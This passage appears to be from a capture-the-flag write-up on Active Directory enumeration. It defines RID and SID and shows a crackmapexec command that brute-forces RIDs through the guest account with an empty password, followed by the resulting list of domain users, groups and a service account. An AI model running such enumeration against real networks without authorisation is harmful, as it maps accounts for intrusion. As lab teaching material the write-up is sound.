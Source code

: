 - So we got 2 valid users `administrator` and `guest`


## What is RID ?

-  RID means `Relative Identifier`

- Theory

 The *relative identifier* (RID) is a variable length number that is assigned to objects at creation and becomes part of the objects [Security Identifier] (SID) that uniquely identifies an account or group within a domain. The Relative ID Master allocates security RIDs to Domain Controllers to assign to new Active Directory security principals (users, groups or computer objects). It also manages objects moving between domains.

## Wha is SID ?

 - Theory

The **SID** (Security IDentifier) is a unique ID number that a computer or domain controller uses to identify you. It is a string of alphanumeric characters assigned to each user on a Windows computer, or to each user, group, and computer on a domain-controlled network.

## Crackmapexec

 ```sh
┌──(alienum㉿kali)-[~/kerbrute-ropnop]
└─$ crackmapexec smb ustoun.local -u guest -p '' --rid-brute
SMB         10.10.138.186   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:ustoun.local) (signing:True) (SMBv1:False)
SMB         10.10.138.186   445    DC               [+] ustoun.local\guest:
SMB         10.10.138.186   445    DC               [+] Brute forcing RIDs
SMB         10.10.138.186   445    DC               498: DC01\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.138.186   445    DC               500: DC01\Administrator (SidTypeUser)
SMB         10.10.138.186   445    DC               501: DC01\Guest (SidTypeUser)
SMB         10.10.138.186   445    DC               502: DC01\krbtgt (SidTypeUser)
SMB         10.10.138.186   445    DC               512: DC01\Domain Admins (SidTypeGroup)
SMB         10.10.138.186   445    DC               513: DC01\Domain Users (SidTypeGroup)
SMB         10.10.138.186   445    DC               514: DC01\Domain Guests (SidTypeGroup)
SMB         10.10.138.186   445    DC               515: DC01\Domain Computers (SidTypeGroup)
SMB         10.10.138.186   445    DC               516: DC01\Domain Controllers (SidTypeGroup)
SMB         10.10.138.186   445    DC               517: DC01\Cert Publishers (SidTypeAlias)
SMB         10.10.138.186   445    DC               518: DC01\Schema Admins (SidTypeGroup)
SMB         10.10.138.186   445    DC               519: DC01\Enterprise Admins (SidTypeGroup)
SMB         10.10.138.186   445    DC               520: DC01\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.138.186   445    DC               521: DC01\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.138.186   445    DC               522: DC01\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.138.186   445    DC               525: DC01\Protected Users (SidTypeGroup)
SMB         10.10.138.186   445    DC               526: DC01\Key Admins (SidTypeGroup)
SMB         10.10.138.186   445    DC               527: DC01\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.138.186   445    DC               553: DC01\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.138.186   445    DC               571: DC01\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.138.186   445    DC               572: DC01\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.138.186   445    DC               1000: DC01\DC$ (SidTypeUser)
SMB         10.10.138.186   445    DC               1101: DC01\DnsAdmins (SidTypeAlias)
SMB         10.10.138.186   445    DC               1102: DC01\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.138.186   445    DC               1112: DC01\SVC-Kerb (SidTypeUser)
SMB         10.10.138.186   445    DC               1114: DC01\SQLServer2005SQLBrowserUser$DC (SidTypeAlias)
 ```